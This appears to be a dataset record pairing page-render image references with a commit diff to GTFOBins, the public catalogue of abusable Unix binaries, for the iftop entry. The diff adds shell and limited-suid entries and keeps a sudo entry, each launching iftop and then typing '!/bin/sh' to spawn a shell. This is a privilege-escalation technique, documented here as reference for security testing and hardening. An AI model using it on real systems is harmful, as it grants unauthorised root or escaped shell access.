

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/iftop.md, in a window 1280 px wide. Shown: the top 843 px of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Add limited-suid and shell functions

```diff
--- a/_gtfobins/iftop.md
+++ b/_gtfobins/iftop.md
@@ -1,8 +1,16 @@
 ---
+description: This requires `iftop` 1.17 and the privilege to capture on some device (specify with `-i` if needed) .
 functions:
+  shell:
+    - code: |
+        iftop
+        !/bin/sh
+  limited-suid:
+    - code: |
+        ./iftop
+        !/bin/sh
   sudo:
-    - description: After getting invoked iftop (>= 1.17), displays network usage details. User can enter and execute commands interactively.
-      code: |
+    - code: |
         sudo iftop
         !/bin/sh
 ---
```
